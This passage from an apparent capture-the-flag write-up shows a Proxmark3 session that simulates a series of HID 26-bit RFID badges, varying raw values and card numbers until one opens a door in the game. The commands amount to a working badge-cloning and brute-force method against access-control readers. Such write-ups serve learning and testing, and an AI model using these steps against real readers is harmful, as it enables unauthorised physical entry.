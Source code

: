 ```bash
[=] Stopping simulation after 10 seconds.
[=] Done
[magicdust] pm3 --> lf hid sim -r 2006e22f31
[=] Simulating HID tag using raw 2006e22f31
[=] Stopping simulation after 10 seconds.
[=] Done
[magicdust] pm3 --> lf hid sim -w H10301 --fc 113 --cn 6040
[=] Simulating HID tag
[+] [H10301] - HID H10301 26-bit;  FC: 113  CN: 6040    parity: valid
[=] Stopping simulation after 10 seconds.
[=] Done
[magicdust] pm3 --> lf hid sim -r 2006e22f10
[=] Simulating HID tag using raw 2006e22f10
[=] Stopping simulation after 10 seconds.
[=] Done
[magicdust] pm3 --> lf hid sim -w H10301 --fc 113 --cn 6024
[=] Simulating HID tag
[+] [H10301] - HID H10301 26-bit;  FC: 113  CN: 6024    parity: valid
[=] Stopping simulation after 10 seconds.
[=] Done
[magicdust] pm3 --> lf hid sim -r 2006e22f13   ##### ----> THIS ONE OPENED THE DOOR
[=] Simulating HID tag using raw 2006e22f13
[=] Stopping simulation after 10 seconds.
[=] Done
[magicdust] pm3 --> lf hid sim -w H10301 --fc 113 --cn 6025
[=] Simulating HID tag
[+] [H10301] - HID H10301 26-bit;  FC: 113  CN: 6025    parity: valid
[=] Stopping simulation after 10 seconds.
[=] Done
[magicdust] pm3 --> lf hid sim -r 2006e22f0e
[=] Simulating HID tag using raw 2006e22f0e
[=] Stopping simulation after 10 seconds.
[=] Done
[magicdust] pm3 --> lf hid sim -w H10301 --fc 113 --cn 6023
[=] Simulating HID tag
[+] [H10301] - HID H10301 26-bit;  FC: 113  CN: 6023    parity: valid
[=] Stopping simulation after 10 seconds.
```
## 5.5. Besanta
Entering the unlocked door and going to its bottom lead to becoming the Santa at the Entry:  
![me](imgs/01_me.png)